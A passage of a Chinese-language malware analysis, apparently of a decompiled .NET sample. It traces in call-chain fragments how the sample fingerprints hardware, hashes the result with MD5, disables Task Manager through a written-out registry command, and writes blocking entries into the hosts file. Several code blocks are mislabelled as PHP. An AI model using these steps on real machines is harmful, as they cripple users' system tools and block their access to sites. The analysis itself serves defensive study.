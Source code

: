 获取主板信息：

```c#
RuntimeHelpers.GetObjectValue(Interaction.GetObject(“WinMgmts”, null))----&gt;RuntimeHelpers.GetObjectValue(NewLateBinding.LateGet(objectValue, null, InstancesOf, new object[]{Win32_BaseBoard}, null, null, null))----&gt;((IEnumerable)objectValue2).GetEnumerator()----&gt;enumerator.MoveNext()----&gt;RuntimeHelpers.GetObjectValue(enumerator.Current)----&gt;Conversions.ToString(Operators.ConcatenateObject(text, NewLateBinding.LateGet(objectValue3, null, "SerialNumber", new object[0], null, null, null)))----&gt;if (enumerator is IDisposable)
```

获取 CPU 信息：

```c#
new ManagementClass("win32_processor")----&gt;managementClass.GetInstances()----&gt;instances.GetEnumerator()----&gt;enumerator.MoveNext()----&gt;managementObject.Properties[processorid].Value.ToString()----&gt;((IDisposable)enumerator).Dispose()
```

获取网卡 MAC 地址：

```php
new ManagementClass(“Win32_NetworkAdapterConfiguration”)----&gt;managementClass.GetInstances()----&gt;instances.GetEnumerator()----&gt;enumerator.MoveNext()----&gt;managementObject = (ManagementObject)enumerator.Current----&gt;Conversions.ToBoolean(managementObject["IPEnabled"])----&gt;managementObject["MacAddress"].ToString()----&gt;text.Replace(":", string.Empty)
```

MD5 加密：

```php
qtc.ComputeHash(Encoding.UTF8.GetBytes(qtv))----&gt;new StringBuilder()----&gt;stringBuilder.Append(array[num3].ToString("x2"))----&gt;stringBuilder.Append("-")----&gt;stringBuilder.ToString().ToUpper()
```

获取系统用户名，计算机名，本地路径信息：

```php
SystemInformation.UserName + "/" + SystemInformation.ComputerName----&gt;Environment.GetEnvironmentVariable("%startupfolder%") + "\%insfolder%\%insname%"----&gt;Assembly.GetExecutingAssembly().Location
```

以线程模式运行禁用注册表的函数：

```php
new Thread(new ThreadStart(kqb.koy))----&gt;thread.IsBackground = true----&gt;thread.Start()----&gt;Interaction.Shell("REG add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f", AppWinStyle.NormalFocus, false, -1)
```

操作 HOST 文件：

```php
Environment.GetFolderPath(Environment.SpecialFolder.System)----&gt;folderPath + @"C:\Windows\system32\drivers\etc\hosts"----&gt;streamWriter.Write("/r/n127.0.0.1" + array[num6])----&gt;streamWriter.Dispose()
```
